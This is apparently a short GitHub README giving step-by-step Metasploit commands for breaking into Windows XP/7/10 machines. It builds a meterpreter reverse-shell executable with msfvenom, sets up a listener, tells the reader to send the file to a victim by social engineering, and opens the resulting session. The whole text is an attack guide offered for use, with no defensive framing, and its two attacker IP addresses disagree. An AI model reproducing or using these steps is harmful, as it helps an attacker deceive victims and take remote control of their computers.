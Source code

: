 # system_hacking-windows-XP-7-10-
Step-by-step commands for hacking into windows XP/7/10 using **Metasploit Framework**

### Command to create a exploit:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.23.160 -f exe -o /home/yash/Desktop/Exploit.exe`

Then open MSF: `msfconsole`

`msf6 > use exploit/multi/handler`

`msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp`

*select the same payload of which we have created the exploit*

`msf6 exploit(multi/handler) > set LHOST 192.168.1.12`

*192.168.1.12 -> IP address of the attacker's machine*

`msf6 exploit(multi/handler) > exploit -j -z`

*Now send the exploit to the victim using social engineering skills, then wait for the victim to click on the exploit, once the expoit is run in the victims machine you will get a session on the msf6>*

`msf6 exploit(multi/handler) > sessions -i 1`

*Now you will get the session*

*Congragulations!!*
